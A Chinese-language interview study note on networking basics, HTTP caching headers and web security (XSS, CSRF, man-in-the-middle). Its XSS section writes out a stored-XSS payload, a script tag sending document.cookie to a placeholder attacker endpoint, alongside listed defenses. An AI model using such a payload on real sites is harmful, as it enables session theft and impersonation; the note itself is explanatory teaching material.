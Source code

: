 ```yaml
---
title: http
tags: 面试
--- 
```

# 网络

## OSI 7 层参考模型

## TCP/IP 协议

1. 应用层(`HTTP`/`HTTPS`/`DNS`)
2. 传输层(`TCP`/`UDP`)
3. internet 层(`IP`)
4. 网络接口层(`物理接口`)

### TCP

**Transmisson Control Prorocol**

1. 连接建立
2. 可靠性传输
   特点： 三次握手四次挥手

### UDP

**User DataGram Protocol**

1. 非连接，不可靠传输方式
2. 效率高，速度快，适合音频和视频

### DNS

**Domain Name System**
域名解析系统
怎么查找域名：
DNS 域名解析采用的是递归查询的方式，过程，DNS 缓存>根域名服务器>根域名下一级

## HTTP 协议

Hypertext Transfer Protocol
超文本传输协议

## 缓存

数据库缓存、服务器端缓存（`nginx`、`CDN 缓存`）、浏览器缓存  
浏览器缓存由包含很多内容：`HTTP 缓存`、`indexDB`、`cookie`、`localstorage `等等

### HTTP 缓存

强缓存和协商缓存的区别就是，强缓存是不需要发请求到服务器的，而协商缓存是需要浏览器发送请求到服务器判断本地的缓存是否失效，若不失效则不请求服务器，反之请求服务器获取最新资源

### 强缓存

命中强缓存时，状态码为 200（Size 列标识为 from cache）的响应请求，利用 `Expire`s 和` Cache-Control` 控制强缓存。

1. Expires
   该值是响应头的字段，指定缓存到期的时间， `Expires=时间`，该时间为绝对时间，`Last-Modify` 结合使用
2. Cache-Control
   该值是响应头的字段，指定缓存到期的时间，`Cache-Control=max-age+时间`，该事件为相对时间

`Cache-Control` 优先级比 `Expires` 高
优点：  
服务器配置有限，降低服务器压力，1 台服务器能做到 10 台服务器的能力

> <- Expires: xxxx
> <- Cache-Control:max-age=600

### 协商缓存

命中协商缓存时，状态码为 304，利用 `Last-Modify/If-Modify-Since`

1. Last-Modify/If-Modify-Since
   第一次请求服务器，返回时会带上 `Last-Modify` 的响应头，标识着该资源最后修改时间，第二次请求时会带上 `If-Modify-since` 请求头，值为第一次响应的 `Last-Modify` 值，服务器会根据 `If-Modify-since` 判断是否命中缓存，**如果命中则不请求服务器，返回 304**，不返回 `Last-Modify`  
   第一次响应： `Last-Modify`  
   第二次请求： `If-Modify-since`
2. Etag/If-None-Match
   `Etag/If-None-Match` `返回的是一个校验码，Etag` 保证每个资源时唯一的，资源的变化都为导致 Etag 改变，服务器根据浏览器发送的 `If-None-Match` 判断是否命中缓存
   两者会优先验证 `Etag`,两种区别：

- 精度问题，第一种的精度时精确到秒，当资源的改变在秒级的时候，不太准确。所以由了 `Etag`
- 文件定期生成，当内容一样时，无法使用 `Last-Modify` 这一套
- 有可能存在服务器没有准确获取文件修改时间等，`Last-Modify` 也不能使用

> <- last-modifed: xxx
> -> if-modified-since: xxx
> <- etag: bbb
> -> if-noe-match: bbb

# web 安全

## 浏览器如何获取到 Cookie

- 利用接口响应的 Set-Cookie 字段  
  有哪些属性

1. domain
2. max-age、Express
3. httponly
4. name=value

## XSS (Cross-Site-Script) 跨站脚本攻击

恶意攻击者，将一些恶意代码插入到网页，当用户访问的时候自动执行这段代码，从而达到攻击者目的

1. 反射型
   特点： 一次性  
   用户点开带有恶意的 url（含有 script），浏览器将此段发送给服务端，服务端返回客户端，此时浏览器识别到可执行代码将其执行
2. 存储型
   特点：恶意代码存储到服务器  
   攻击者提交含有 script 标签的恶意代码表单到服务器，服务端将其保存，展示给其他用户时执行恶意代码

### 实现过程

1. 将 `<script scr="https://攻击者接口?cookie=document.cookie"> </script>`， 注册成用户名， 提交给服务端，服务端保存
2. 用户登录，如果查看到这个攻击者的账号信息相关，那么会执行恶意代码，将 cookie 拿到，发送到攻击者接口
3. 攻击者事先会收集各种接口，找到相关可以获取到用户的接口
4. 通过 cookie 获取到用户信息（手机号等）等

### 用途

1. 冒充身份
2. 刷点击（注入文章地址）
3. 弹广告（注入一段创建弹窗的代码）
4. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 输入过滤，对于特殊符号等不允许提交
2. httponly
3. 转义 HTML 比如： `< => &lt` 、 `> => &gt`

## CSRF (Cross-Site-Request-Forgery) 跨站点请求伪造

诱导受害者去到攻击者的网站，攻击者网站发起了相关请求，并且带上了受害者 cookie，从而可以做一些恶意的操作

前提： 浏览器没有严格执行同源政策，请求所在网站必须和请求的接口同源，就有可能发生 CSRF

### 实现过程

1. 受害者登录信任网站
2. 未关闭含有 cookie 的信任网站
3. 诱导受害者去攻击者网站（如果配合 XSS 此时可能会直接跳转，或者弹窗诱导到攻击者网站）
4. 在攻击者网站（用隐藏表单自动发送请求，img/src 自动 get 请求等骚操作...）发起信任网站相关接口，此时会携带用户的 cookie，冒充用户

### 用途

1. 冒充身份
2. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 用验证码，信任网站开启验证码，而攻击者网站没办法获取正确验证码
2. Referer ，表明请求的站点地址，但是有可能存在伪造 `Referer` 头
3. token，客户端接收服务端的 token，保存在隐藏区域（本地存储，隐藏的 html 元素，代码内存等），请求带上 token
4. 使用带有同源政策的浏览器，升级到默认开启严格模式版本

## 中间人攻击

是在数据传输时发生的攻击手段。截取 http 在传输时数据包，获取用户信息，篡改信息，篡改密钥

